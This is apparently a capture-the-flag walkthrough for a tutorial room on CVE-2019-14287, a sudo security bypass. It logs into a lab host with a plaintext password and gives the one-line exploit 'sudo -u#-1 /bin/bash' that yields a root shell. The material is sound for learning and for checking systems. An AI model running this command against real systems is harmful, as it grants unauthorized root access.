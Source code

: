 ```yaml
---
description: A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program
---
```


# Sudo Security Bypass

This exploit has since been fixed, but may still be present in older versions of Sudo (**versions < 1.8.28**), so it's well worth keeping an eye out for! This will _only_ work if you've been granted non-root sudo permissions for the command

## Task 2 Security Bypass

#### **What command are you allowed to run with sudo?**

```
sshpass -p tryhackme ssh -p 2222 tryhackme@10.10.28.74
sudo -l
```

![](<../../.gitbook/assets/Screenshot from 2020-08-24 09-03-23.png>)

#### **What is the flag in /root/root.txt?**

```
sudo -u#-1 /bin/bash
```

![](<../../.gitbook/assets/Screenshot from 2020-08-24 09-17-21.png>)
